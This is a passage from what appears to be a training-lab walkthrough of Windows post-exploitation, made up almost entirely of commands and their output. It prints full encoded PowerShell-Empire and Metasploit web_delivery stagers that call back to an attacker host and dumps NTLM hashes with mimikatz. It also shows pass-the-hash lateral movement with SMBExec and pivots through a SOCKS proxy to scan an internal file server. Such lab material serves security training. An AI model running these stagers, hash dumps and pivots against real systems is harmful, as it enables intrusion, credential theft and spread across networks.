[*] 10.4.17.60:445 - Authenticating to 10.4.17.60:445 as user 'Administrator'...
[*] 10.4.17.60:445 - Selecting PowerShell target
[*] 10.4.17.60:445 - Executing the payload...
[+] 10.4.17.60:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.4.17.60
[*] Meterpreter session 1 opened (10.10.23.3:4444 -> 10.4.17.60:49328 ) at 2024-08-06 20:24:50 +0530 ←
```

<span style="color: #64b5f6;">**Target (victim 1: demo.ine.local) machine**</span>.

_Verifying that we have SYSTEM level access on the target machine._

`whoami`:
```
nt authority\system
```

_Checking the hostname of the compromised machine._

`hostname`:
```
attackdefense
```

_Obtaining network configuration details of the target machine._

`ipconfig`:
```
Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : ec2.internal
   Link-local IPv6 Address . . . . . : fe80::a4b5:7eab:dc90:8093%13
   IPv4 Address. . . . . . . . . . . : 10.4.17.60 ←
   Subnet Mask . . . . . . . . . . . : 255.255.240.0
   Default Gateway . . . . . . . . . : 10.4.16.1

Tunnel adapter isatap.ec2.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : ec2.internal
```

_Attempting to ping `fileserver.ine.local` by hostname fails, indicating possible DNS issues or isolation._

`ping -n 3 fileserver.ine.local`:
```
Ping request could not find host fileserver.ine.local. Please check the name and try again. ←
```

_Checking the hosts file on the target machine to see if `fileserver.ine.local` is mapped manually._

`type C:\Windows\System32\drivers\etc\hosts`:
```
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#       127.0.0.1       localhost
#       ::1             localhost
```

_Successfully pinging the target machine `fileserver.ine.local` by its IP address._

`ping -n 3 10.4.21.77`:
```
Pinging 10.4.21.77 with 32 bytes of data:
Reply from 10.4.21.77: bytes=32 time=1ms TTL=128
Reply from 10.4.21.77: bytes=32 time<1ms TTL=128
Reply from 10.4.21.77: bytes=32 time<1ms TTL=128

Ping statistics for 10.4.21.77:
    Packets: Sent = 3, Received = 3, Lost = 0 (0% loss), ←
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 1ms, Average = 0ms
```

<span style="color: #4caf50;">PowerShell-Empire Server</span>.

_Starting the PowerShell-Empire server to manage agents and listeners._

`sudo powershell-empire server`:
```
[*] Loading default config
[*] Setting up database.
[*] Adding default user.
[*] Adding database config.
[*] Generating random staging key
[*] Adding default bypasses.
[*] Adding default keyword obfuscation functions.
[*] Loading stagers from: /usr/share/powershell-empire/empire/server/stagers/
[*] Loading modules from: /usr/share/powershell-empire/empire/server/modules/
[*] Loading listeners from: /usr/share/powershell-empire/empire/server/listeners/
[*] Loading malleable profiles from: /usr/share/powershell-empire/empire/server/data/profiles
[*] Searching for plugins at /usr/share/powershell-empire/empire/server/plugins/
[*] Initializing plugin...
[*] Doing custom initialization...
[*] Loading Empire C# server plugin
[*] Registering plugin with menu...
[*] Initializing plugin...
[*] Doing custom initialization...
[*] Loading websockify server plugin
[*] Registering plugin with menu...
[*] Initializing plugin...
[*] Doing custom initialization...
[*] Loading Empire reverseshell server plugin
[*] Registering plugin with menu...
[*] Empire starting up...
[*] Starting Empire RESTful API on 0.0.0.0:1337 ←
[*] Starting Empire SocketIO on 0.0.0.0:5000
[*] Testing APIs
[+] Empire RESTful API successfully started
[+] Empire SocketIO successfully started
[*] Cleaning up test user

...

[+] Plugin csharpserver ran successfully!
[+] empireadmin connected to socketio
```

<span style="color: #2196f3;">PowerShell-Empire Client</span>.

_Starting the PowerShell-Empire client and connecting to the local server._

`sudo powershell-empire client`:
```
========================================================================================
 [Empire] Post-Exploitation Framework
========================================================================================
 [Version] 4.3.0 BC Security Fork | [Web] https://github.com/BC-SECURITY/Empire
========================================================================================
 [Starkiller] Multi-User GUI | [Web] https://github.com/BC-SECURITY/Starkiller
========================================================================================
 This build was released exclusively for Kali Linux | https://kali.org
========================================================================================

   _______   ___  ___   ______    __   ______        _______
  |   ____| |   \/   | |   _  \  |  | |   _  \      |   ____|
  |  |__    |  \  /  | |  |_)  | |  | |  |_)  |     |  |__
  |   __|   |  |\/|  | |   ___/  |  | |      /      |   __|
  |  |____  |  |  |  | |  |      |  | |  |\  \----. |  |____
  |_______| |__|  |__| | _|      |__| | _| `._____| |_______|


       396 modules currently loaded

       0 listeners currently active

       0 agents currently active

[*] Connected to localhost ←
```

_Creating an HTTP listener on the attacker's machine._

`uselistener http`, `options`, `set Host 10.10.4.4`, `set Port 8888`, `execute`:
```
[+] Listener http successfully started
```

_Confirming that the listener has been successfully created and is active._

`main`, `listeners`:

| ID | Name | Module | Listener Category | Created At                               | Enabled |
|----|------|--------|-------------------|------------------------------------------|---------|
| 1  | http | http   | client_server     | 2024-08-06 22:07:20 IST (39 seconds ago) | True    |

_Generating a stager payload to establish a connection back to the HTTP listener._

`usestager multi/launcher`, `options`, `set Listener http`, `execute`:
```
powershell -noP -sta -w 1 -enc  SQBGACgAJABQAFMAVgBFAHIAcwBpAG8ATgBUAGEAQgBMAGUALgBQAFMAVgBFAFIAcwBpAG8ATgAuAE0AYQBKAE8AUgAgAC0AZwBlACAAMwApAHsAJABSAEUAZgA9AFsAUgBFAEYAXQAuAEEAcwBTAEUAbQBiAGwAeQAuAEcARQB0AFQAeQBQAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpACcAKwAnAFUAdABpAGwAcwAnACkAOwAkAFIAZQBGAC4ARwBFAFQARgBp

...

gBEAE8AVwBuAGwAbwBBAGQARABBAFQAQQAoACQAUwBlAFIAKwAkAHQAKQA7ACQAaQBWAD0AJABkAGEAdABhAFsAMAAuAC4AMwBdADsAJABEAEEAdABhAD0AJABEAGEAVABhAFsANAAuAC4AJABkAEEAdABBAC4ATABFAE4ARwBUAGgAXQA7AC0ASgBPAGkATgBbAEMAaABBAFIAWwBdAF0AKAAmACAAJABSACAAJABEAEEAVABhACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA=
```

<span style="color: #64b5f6;">**Target (victim 1: demo.ine.local) machine**</span>.

_Executing the generated stager payload on the target machine to establish a connection._

```
powershell -noP -sta -w 1 -enc  SQBGACgAJABQAFMAVgBFAHIAcwBpAG8ATgBUAGEAQgBMAGUALgBQAFMAVgBFAFIAcwBpAG8ATgAuAE0AYQBKAE8AUgAgAC0AZwBlACAAMwApAHsAJABSAEUAZgA9AFsAUgBFAEYAXQAuAEEAcwBTAEUAbQBiAGwAeQAuAEcARQB0AFQAeQBQAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpACcAKwAnAFUAdABpAGwAcwAnACkAOwAkAFIAZQBGAC4ARwBFAFQARgBp

...

gBEAE8AVwBuAGwAbwBBAGQARABBAFQAQQAoACQAUwBlAFIAKwAkAHQAKQA7ACQAaQBWAD0AJABkAGEAdABhAFsAMAAuAC4AMwBdADsAJABEAEEAdABhAD0AJABEAGEAVABhAFsANAAuAC4AJABkAEEAdABBAC4ATABFAE4ARwBUAGgAXQA7AC0ASgBPAGkATgBbAEMAaABBAFIAWwBdAF0AKAAmACAAJABSACAAJABEAEEAVABhACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA=
```

<span style="color: #2196f3;">PowerShell-Empire Client</span>.

_Verifying that the agent has successfully connected back to the Empire server._

`main`, `agents`:

| ID | Name      | Language   | Internal IP | Username         | Process    | PID  | Delay | Last Seen               | Listener |
|----|-----------|------------|-------------|------------------|------------|------|-------|-------------------------|----------|
| 1  | 9UHYCNAD* | powershell | 10.4.16.167 | WORKGROUP\SYSTEM | powershell | 3016 | 5/0.0 | 2024-08-06 22:12:18 IST | http     |
|    |           |            |             |                  |            |      |       | (2 seconds ago)         |          |

_Renaming the agent for easier identification._

`rename 9UHYCNAD DemoINE`

`agents`:

| ID | Name     | Language   | Internal IP | Username         | Process    | PID  | Delay | Last Seen               | Listener |
|----|----------|------------|-------------|------------------|------------|------|-------|-------------------------|----------|
| 1  | DemoINE* | powershell | 10.4.16.167 | WORKGROUP\SYSTEM | powershell | 3016 | 5/0.0 | 2024-08-06 22:12:49 IST | http     |
|    |          |            |             |                  |            |      |       | (now)                   |          |

_Interacting with the newly connected agent to execute further commands._

`interact DemoINE`

<span style="color: #64b5f6;">**Target (victim 1: demo.ine.local) machine**</span>.

_Displaying detailed information about the connected agent._

`info`:

| ID               | 1                                             |
|------------------|-----------------------------------------------|
| architecture     | AMD64                                         |
| checkin_time     | 2024-08-06T16:41:12+00:00                     |
| children         |                                               |
| delay            | 5                                             |
| external_ip      | 10.4.16.167                                   |
| functions        |                                               |
| high_integrity   | 1                                             |
| hostname         | ATTACKDEFENSE                                 |
| internal_ip      | 10.4.16.167                                   |
| jitter           | 0.0                                           |
| kill_date        |                                               |
| language         | powershell                                    |
| language_version | 5                                             |
| lastseen_time    | 2024-08-06T16:43:14+00:00                     |
| listener         | http                                          |
| lost_limit       | 60                                            |
| name             | DemoINE                                       |
| nonce            | 6442504089581339                              |
| notes            |                                               |
| os_details       | Microsoft Windows Server 2012 R2 Standard     |
| parent           |                                               |
| process_id       | 3016                                          |
| process_name     | powershell                                    |
| profile          | /admin/get.php,/news.php,/login/process.php|M |
|                  | ozilla/5.0 (Windows NT 6.1; WOW64;            |
|                  | Trident/7.0; rv:11.0) like Gecko              |
| proxy            |                                               |
| servers          |                                               |
| session_id       | 9UHYCNAD                                      |
| session_key      | X7tm$T9f%IM.cal!F^}uQ|KJ35YWk@.V              |
| stale            | False                                         |
| username         | WORKGROUP\SYSTEM                              |
| working_hours    |                                               |

_Listing available commands and modules in the PowerShell-Empire client._

`help`:

| Name           | Description                         | Usage                           |
|----------------|-------------------------------------|---------------------------------|
| display        | Display an agent property           | display <property_name>         |
| download       | Tasks an the specified agent to     | download <file_name>            |
|                | download a file.                    |                                 |
| help           | Display the help menu for the       | help                            |
|                | current menu                        |                                 |
| history        | Display last number of task results | history <number_tasks>          |
|                | received.                           |                                 |
| info           | Display agent info.                 | info                            |
| killdate       | Set an agent's killdate             | killdate <kill_date>            |
|                | (01/01/2020)                        |                                 |
| proxy          | Proxy management menu for           | proxy                           |
|                | configuring agent proxies           |                                 |
| script_command | "Execute a function in the          | shell_command <script_cmd>      |
|                | currently imported PowerShell       |                                 |
|                | script."                            |                                 |
| script_import  | Imports a PowerShell script from    | script_import <script_location> |
|                | the server and keeps it in memory   |                                 |
|                | in the agent.                       |                                 |
| shell          | Tasks an the specified agent to     | shell <shell_cmd>               |
|                | execute a shell command.            |                                 |
| sleep          | Tasks an the specified agent to     | sleep <delay> <jitter>          |
|                | update delay (s) and jitter (0.0 -  |                                 |
|                | 1.0)                                |                                 |
| update_comms   | Update the listener for an agent.   | update_comms <listener_name>    |
| upload         | Tasks an the specified agent to     | upload <local_file_directory>   |
|                | upload a file. Use '-p' for a file  |                                 |
|                | selection dialog.                   |                                 |
| view           | View specific task and result       | view <task_id>                  |
| workinghours   | Set an agent's working hours        | workinghours <working_hours>    |
|                | (9:00-17:00)                        |                                 |
| whoami         | Tasks an agent to run the shell     | whoami                          |
|                | command 'whoami'                    |                                 |
| ps             | Tasks an agent to run the shell     | ps                              |
|                | command 'ps'                        |                                 |
| sc             | Tasks the agent to run module       | sc                              |
|                | powershell/collection/screenshot.   |                                 |
|                | Default parameters include: Ratio:  |                                 |
|                | 80                                  |                                 |
| keylog         | Tasks the agent to run module       | keylog                          |
|                | powershell/collection/keylogger.    |                                 |
|                | Default parameters include: Sleep:  |                                 |
|                | 1                                   |                                 |
| sherlock       | Tasks the agent to run module       | sherlock                        |
|                | powershell/privesc/sherlock.        |                                 |
| mimikatz       | Tasks the agent to run module power | mimikatz                        |
|                | shell/credentials/mimikatz/logonpas |                                 |
|                | swords.                             |                                 |
| psinject       | Tasks the agent to run module       | psinject <Listener> <ProcId>    |
|                | powershell/management/psinject.     |                                 |
| revtoself      | Tasks the agent to run module       | revtoself                       |
|                | powershell/credentials/tokens.      |                                 |
|                | Default parameters include:         |                                 |
|                | RevToSelf: True                     |                                 |
| shinject       | Tasks the agent to run module       | shinject <Listener> <ProcId>    |
|                | powershell/management/shinject.     |                                 |
| spawn          | Tasks the agent to run module       | spawn <Listener>                |
|                | powershell/management/spawn.        |                                 |
| steal_token    | Tasks the agent to run module       | steal_token <ProcessID>         |
|                | powershell/credentials/tokens.      |                                 |
|                | Default parameters include:         |                                 |
|                | ImpersonateUser: True               |                                 |
| bypassuac      | Tasks the agent to run module power | bypassuac <Listener>            |
|                | shell/privesc/bypassuac_eventvwr.   |                                 |

_Executing the `whoami` command to verify the current user context._

`shell "whoami"`:
```
[*] Tasked 9UHYCNAD to run Task 1
```

_Confirming that the command executed successfully and the current user is `NT AUTHORITY\SYSTEM`._

`history`:
```
[*] Task 1 results received
NT AUTHORITY\SYSTEM
```

_Loading the `computerdetails` module to gather detailed information about the target system._

`usemodule powershell/situational_awareness/host/computerdetails`

`info`:
```
Author       @JosephBialek                                                        
 Background   True                                                                 
 Comments     https://github.com/mattifestation/PowerSploit/blob/master/Recon/Get- 
              ComputerDetails.ps1                                                  
 Description  Enumerates useful information on the system. By default, all checks  
              are run. ←                                                           
 Language     powershell                                                           
 Name         powershell/situational_awareness/host/computerdetails                
 NeedsAdmin   True                                                                 
 OpsecSafe    True                                                                 
 Techniques   http://attack.mitre.org/techniques/T1082             
```

`options`:

| Name           | Value      | Required | Description                         |
|----------------|------------|----------|-------------------------------------|
| 4624           |            | False    | Switch. Only return 4624 logon      |
|                |            |          | information (logons to this         |
|                |            |          | machine).                           |
| 4648           |            | False    | Switch. Only return 4648 logon      |
|                |            |          | information (RDP to another         |
|                |            |          | machine).                           |
| Agent          | DemoINE    | True     | Agent to run module on.             |
| AppLocker      |            | False    | Switch. Only return AppLocker logs. |
| Limit          | 100        | False    | Limit the number of event log       |
|                |            |          | entries returned. Defaults to 100   |
| OutputFunction | Out-String | False    | PowerShell's output function to use |
|                |            |          | ("Out-String", "ConvertTo-Json",    |
|                |            |          | "ConvertTo-Csv", "ConvertTo-Html",  |
|                |            |          | "ConvertTo-Xml").                   |
| PSScripts      |            | False    | Switch. Only return PowerShell      |
|                |            |          | scripts run from operational log.   |
| SavedRDP       |            | False    | Switch. Only return saved RDP       |
|                |            |          | connections.                        |

`execute`:
```
[*] Tasked DemoINE to run Task 1
```

_Displaying the results of the `Get-ComputerDetails` module, including logon events and other useful information._

`history`:
```
[*] Task 1 results received
Event ID 4624 (Logon):

LogonType             : 3
NewLogonAccountName   : Administrator
SourcePort            : 48452
SourceNetworkAddress  : 10.10.23.2
Times                 : {8/7/2024 8:18:11 AM}
LogSource             : Security
SourceAccountName     : -
WorkstationName       : -
Count                 : 1
SourceDomainName      : -
NewLogonAccountDomain : ATTACKDEFENSE
LogType               : 4624

LogonType             : 3
NewLogonAccountName   : Administrator
SourcePort            : -
SourceNetworkAddress  : -
Times                 : {1/12/2022 11:29:12 AM}
LogSource             : Security
SourceAccountName     : -
WorkstationName       : attackdefense
Count                 : 1
SourceDomainName      : -
NewLogonAccountDomain : ATTACKDEFENSE
LogType               : 4624

LogonType             : 10
NewLogonAccountName   : Administrator
SourcePort            : 0
SourceNetworkAddress  : 172.104.52.153
Times                 : {1/12/2022 11:29:13 AM}
LogSource             : Security
SourceAccountName     : ATTACKDEFENSE$
WorkstationName       : ATTACKDEFENSE
Count                 : 1
SourceDomainName      : WORKGROUP
NewLogonAccountDomain : ATTACKDEFENSE
LogType               : 4624


Event ID 4648 (Explicit Credential Logon):

Times             : {1/12/2022 11:29:13 AM}
TargetAccountName : Administrator
LogSource         : Security
SourceAccountName : ATTACKDEFENSE$
TargetServer      : localhost
Count             : 1
SourceDomainName  : WORKGROUP
TargetDomainName  : ATTACKDEFENSE
LogType           : 4648


AppLocker Process Starts:


PowerShell Script Executions:


RDP Client Data:


Get-ComputerDetails completed!
```

_Loading the `lsadump` module from Mimikatz to extract user hashes._

`usemodule powershell/credentials/mimikatz/lsadump`

`info`:
```
Author       @JosephBialek                                                       
              @gentilkiwi                                                         
 Background   True                                                                
 Comments     http://clymb3r.wordpress.com/                                       
              http://blog.gentilkiwi.com                                          
              https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump#lsa    
 Description  Runs PowerSploit's Invoke-Mimikatz function to extract a particular 
              user hash from memory. Useful on domain controllers. ←               
 Language     powershell                                                          
 Name         powershell/credentials/mimikatz/lsadump                             
 NeedsAdmin   True                                                                
 OpsecSafe    True                                                                
 Software     http://attack.mitre.org/software/S0002                              
 Techniques   http://attack.mitre.org/techniques/T1098                            
              http://attack.mitre.org/techniques/T1003                            
              http://attack.mitre.org/techniques/T1081                            
              http://attack.mitre.org/techniques/T1207                            
              http://attack.mitre.org/techniques/T1075                            
              http://attack.mitre.org/techniques/T1097                            
              http://attack.mitre.org/techniques/T1145                            
              http://attack.mitre.org/techniques/T1101                            
              http://attack.mitre.org/techniques/T1178                
```

`options`:

| Name     | Value   | Required | Description                       |
|----------|---------|----------|-----------------------------------|
| Agent    | DemoINE | True     | Agent to run module on.           |
| Username |         | False    | Username to extract the hash for, |
|          |         |          | blank for all local passwords.    |

`execute`:
```
[*] Tasked DemoINE to run Task 2
```

_Displaying the extracted NTLM hashes from the target system._

`history`:
```
[*] Task 2 results received
Hostname: attackdefense / authority\system-authority\system

  .#####.   mimikatz 2.2.0 (x64) #19041 Nov 20 2021 08:28:06
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # lsadump::lsa /patch
Domain : ATTACKDEFENSE / S-1-5-21-2202681729-75510020-2229350343

RID  : 000001f4 (500)
User : Administrator ←
LM   : 
NTLM : 5c4d59391f656d5958dab124ffeabc20 ←

RID  : 000001f5 (501)
User : Guest
LM   : 
NTLM : 

RID  : 000003f1 (1009)
User : local_admin
LM   : 
NTLM : 89551acff8895768e489bb3054af94fd
```

_Loading the `invoke_smbexec` module to execute commands on remote hosts using SMBExec._

`usemodule powershell/lateral_movement/invoke_smbexec`

`info`:
```
 Author       @rvrsh3ll                                                        
 Background   False                                                            
 Comments     https://raw.githubusercontent.com/Kevin-Robertson/Invoke-        
              TheHash/master/Invoke-SMBExec.ps1                                
 Description  Executes a stager on remote hosts using SMBExec.ps1. This module 
              requires a username and NTLM hash                                
 Language     powershell                                                       
 Name         powershell/lateral_movement/invoke_smbexec                       
 NeedsAdmin   False                                                            
 OpsecSafe    True                                                             
 Techniques   http://attack.mitre.org/techniques/T1187                         
              http://attack.mitre.org/techniques/T1135                         
              http://attack.mitre.org/techniques/T1047  
```

`options`:

| Name             | Value              | Required | Description                         |
|------------------|--------------------|----------|-------------------------------------|
| Agent            | DemoINE            | True     | Agent to run module on.             |
| Bypasses         | mattifestation etw | False    | Bypasses as a space separated list  |
|                  |                    |          | to be prepended to the launcher.    |
| Command          |                    | False    | Custom command to run.              |
| ComputerName     |                    | True     | Host[s] to execute the stager on,   |
|                  |                    |          | comma separated.                    |
| CredID           |                    | False    | CredID from the store to use.       |
| Domain           | .                  | True     | Domain.                             |
| Hash             |                    | True     | NTLM Hash in LM:NTLM or NTLM        |
|                  |                    |          | format.                             |
| Listener         |                    | False    | Listener to use.                    |
| Obfuscate        | False              | False    | Switch. Obfuscate the launcher      |
|                  |                    |          | powershell code, uses the           |
|                  |                    |          | ObfuscateCommand for obfuscation    |
|                  |                    |          | types. For powershell only.         |
| ObfuscateCommand | Token\All\1        | False    | The Invoke-Obfuscation command to   |
|                  |                    |          | use. Only used if Obfuscate switch  |
|                  |                    |          | is True. For powershell only.       |
| OutputFunction   | Out-String         | False    | PowerShell's output function to use |
|                  |                    |          | ("Out-String", "ConvertTo-Json",    |
|                  |                    |          | "ConvertTo-Csv", "ConvertTo-Html",  |
|                  |                    |          | "ConvertTo-Xml").                   |
| Proxy            | default            | False    | Proxy to use for request (default,  |
|                  |                    |          | none, or other).                    |
| ProxyCreds       | default            | False    | Proxy credentials                   |
|                  |                    |          | ([domain\]username:password) to use |
|                  |                    |          | for request (default, none, or      |
|                  |                    |          | other).                             |
| Service          |                    | False    | Name of service to create and       |
|                  |                    |          | delete. Defaults to 20 char random. |
| UserAgent        | default            | False    | User-agent string to use for the    |
|                  |                    |          | staging request (default, none, or  |
|                  |                    |          | other).                             |
| Username         |                    | True     | Username.                           |

`set ComputerName demo.ine.local`, `Set Username Administrator`, `set Hash 5c4d59391f656d5958dab124ffeabc20`, `set Command whoami`, `execute`:
```
[*] Tasked DemoINE to run Task 3
```

_The command did not execute successfully, possibly due to network or configuration issues._

`history`:
```
[*] Task 3 results received
demo.ine.local did not respond ←


Invoke-SMBExec completed!
```

_Trying to execute the command using the IP of the target `10.4.16.233`._

`usemodule powershell/lateral_movement/invoke_smbexec`, `set ComputerName 10.4.16.233`, `execute`:
```
[*] Tasked DemoINE to run Task 4
```

_The command executed successfully on the target._

`history`:
```
[*] Task 4 results received
Command executed with service DRYEXDRMFUKBYSUVTXTQ on 10.4.16.233 ←


Invoke-SMBExec completed!
```

Note: Here, we can configure a stager to get another session, but it's not what we want in this case.

_Loading the `portscan` module to perform a network scan using PowerShell._

`usemodule powershell/situational_awareness/network/portscan`

`info`:
```
 Author       Rich Lundeen                                                         
 Background   True                                                                 
 Comments     https://github.com/mattifestation/PowerSploit/blob/master/Recon/Invoke-Portscan.ps1                                                        
 Description  Does a simple port scan using regular sockets, based (pretty) loosely on nmap. ←                                                              
 Language     powershell                                                           
 Name         powershell/situational_awareness/network/portscan                    
 NeedsAdmin   False                                                                
 OpsecSafe    True                                                                 
 Techniques   http://attack.mitre.org/techniques/T1046
```

`options`:

| Name           | Value      | Required | Description                         |
|----------------|------------|----------|-------------------------------------|
| Agent          | DemoINE    | True     | Agent to run module on.             |
| AllformatsOut  |            | False    | Output file of all formats.         |
| ExcludeHosts   |            | False    | Exclude these comma separated       |
|                |            |          | hosts.                              |
| GrepOut        |            | False    | Greppable (.gnmap) output file.     |
| HostFile       |            | False    | Input hosts from file (on the       |
|                |            |          | target)                             |
| Hosts          |            | False    | Hosts to scan.                      |
| Open           | True       | False    | Switch. Only show hosts with open   |
|                |            |          | ports.                              |
| OutputFunction | Out-String | False    | PowerShell's output function to use |
|                |            |          | ("Out-String", "ConvertTo-Json",    |
|                |            |          | "ConvertTo-Csv", "ConvertTo-Html",  |
|                |            |          | "ConvertTo-Xml").                   |
| PingOnly       |            | False    | Switch. Ping only, don't scan for   |
|                |            |          | ports.                              |
| Ports          |            | False    | Comma separated ports to scan for.  |
| ReadableOut    |            | False    | Readable (.nmap) output file.       |
| SkipDiscovery  |            | False    | Switch. Treat all hosts as online.  |
| TopPorts       |            | False    | Scan for X top ports, default 50.   |
| XmlOut         |            | False    | .XML output file.                   |

`set Hosts 10.4.27.15`, `execute`:
```
[*] Tasked DemoINE to run Task 6
```

_Displaying the results of the port scan, showing open ports on the target host._

`history`:
```
[*] Task 6 results received

Hostname   OpenPorts       
--------   ---------       
10.4.27.15 3389,445,139,135 ←


Invoke-Portscan completed
```

<span style="color: #e57373;">**Attacker machine**</span>.

_Opening Metasploit console._

`msfconsole -q`

_Setting up the Metasploit web delivery module to deliver a Meterpreter payload._

`search web_delivery`, `use exploit/multi/script/web_delivery`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set LHOST 10.10.23.2`, `show targets`, `set TARGET PSH`, `exploit`:
```
[*] Started reverse TCP handler on 10.10.23.2:4444 
[*] Using URL: http://0.0.0.0:8080/1Quk5U
msf6 exploit(multi/script/web_delivery) > [*] Local IP: http://10.10.23.2:8080/1Quk5U ←
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAA9AFsATgBlAHQALgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAFQAeQBwAGUAXQA6ADoAVABsAHMAMQAyADsAJABpAHYAdABPAHEAPQBuAGUAdwAtAG8AYgBqAGUAY

...

AEEAVgA0AGQANgAnACkAKQA7AEkARQBYACAAKAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMgAzAC4AMgA6ADgAMAA4ADAALwAxAFEAdQBrADUAVQAnACkAKQA7AA==
```

<span style="color: #64b5f6;">**Target (victim 1: demo.ine.local) machine**</span>.

_Loading the module to invoke a Metasploit payload._

`usemodule powershell/code_execution/invoke_metasploitpayload`

`info`:
```
 Author       @jaredhaight                                                        
 Background   False                                                               
 Comments     https://github.com/jaredhaight/Invoke-MetasploitPayload/            
 Description  Spawns a new, hidden PowerShell window that downloadsand executes a 
              Metasploit payload. This relies on                                  
              theexploit/multi/scripts/web_delivery metasploit module. ←           
 Language     powershell                                                          
 Name         powershell/code_execution/invoke_metasploitpayload                  
 NeedsAdmin   False                                                               
 OpsecSafe    True                                                                
 Techniques   http://attack.mitre.org/techniques/T1055  
```

`options`:

| Name  | Value   | Required | Description                         |
|-------|---------|----------|-------------------------------------|
| Agent | DemoINE | True     | Agent to run Metasploit payload on. |
| URL   |         | True     | URL from the Metasploit             |
|       |         |          | web_delivery module                 |

_Executing the payload delivery on the target._

`set URL http://10.10.23.2:8080/1Quk5U`, `execute`:
```
[*] Tasked DemoINE to run Task 7
```

<span style="color: #e57373;">**Attacker machine**</span>.

_Interacting with the new Meterpreter active session._

`sessions`

`sessions -i 1`

<span style="color: #64b5f6;">**Target (victim 1: demo.ine.local) machine**</span>.

_Confirming elevated privileges on the target system._

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

_Gathering system information._

`sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
```

`bg`

<span style="color: #e57373;">**Attacker machine**</span>.

_Setting up autoroute to pivot through the compromised machine's subnet._

`search autoroute`, `use post/multi/manage/autoroute`, `show options`, `set SESSION 1`, `run`:
```
[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against ATTACKDEFENSE
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.4.16.0/255.255.240.0 from host's routing table.
[*] Post module execution completed
```

_Configuring proxychains to use a SOCKS proxy on port 9050._

`cat /etc/proxychains4.conf`:
```
...

[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050 ←
```

`search socks`, `use auxiliary/server/socks_proxy`, `show options`, `set VERSION 4a`, `set SRVPORT 9050`, `set SRVHOST 10.10.23.2`, `run`:
```
[*] Auxiliary module running as background job 1.

[*] Starting the SOCKS proxy server
```

`jobs`:
```
Jobs
====

  Id  Name                                Payload                          Payload opts
  --  ----                                -------                          ------------
  0   Exploit: multi/script/web_delivery  windows/meterpreter/reverse_tcp  tcp://10.10.23.2:4444
  1   Auxiliary: server/socks_proxy
```

_Scanning the internal host `fileserver.ine.local` via proxychains to identify open ports._

`proxychains nmap -Pn -sT -sV -F fileserver.ine.local`:
```
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-07 14:41 IST
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  fileserver.ine.local:53 <--denied
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  fileserver.ine.local:587 <--denied
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  fileserver.ine.local:445  ...  OK

...

[proxychains] Strict chain  ...  127.0.0.1:9050  ...  fileserver.ine.local:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  fileserver.ine.local:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  fileserver.ine.local:80  ...  OK
Nmap scan report for fileserver.ine.local (224.0.0.1)
Host is up (1.1s latency).
rDNS record for 224.0.0.1: all-systems.mcast.net
Not shown: 95 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          BadBlue httpd 2.7 ←
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.79 seconds
```

